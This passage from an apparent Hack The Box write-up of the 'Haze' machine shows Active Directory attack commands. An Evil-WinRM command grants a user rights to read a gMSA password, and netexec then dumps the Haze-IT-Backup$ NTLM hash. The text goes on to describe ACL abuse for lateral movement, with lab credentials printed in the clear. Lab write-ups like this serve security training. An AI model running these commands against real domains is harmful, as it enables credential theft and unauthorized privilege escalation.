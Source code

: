 ```powershell
*Evil-WinRM* PS C:\> Set-ADServiceAccount -Identity 'Haze-IT-Backup' -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAPS       10.129.135.234  636    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAPS       10.129.135.234  636    DC01             [*] Getting GMSA Passwords
LDAPS       10.129.135.234  636    DC01             Account: Haze-IT-Backup$      NTLM: 735c02c6b2dc54c3c8c6891f55279ebc
```

| NTLM Hash                        |
| -------------------------------- |
| 735c02c6b2dc54c3c8c6891f55279ebc |

## Lateral Movement to SUPPORT_SERVICES Group
### Access Control List (ACL) & Access Control Entry (ACE) Abuse

Now since we had the `NTLM Hash` of `Haze-IT-Backup$` we were able to `move laterally` to the `SUPPORT_SERVICES` group by abusing the `Access Control List (ACL)` and `Access Control Entry (ACE)` of `GenericAll`, `WriteOwner` and `Owns` of `Haze-IT-Backup$`.

![](images/2025-03-29_23-22_bloodhound_hazeitbackup_permissions.png)

Mr. `mk0` came in clutch with two quick commands to execute these changes.
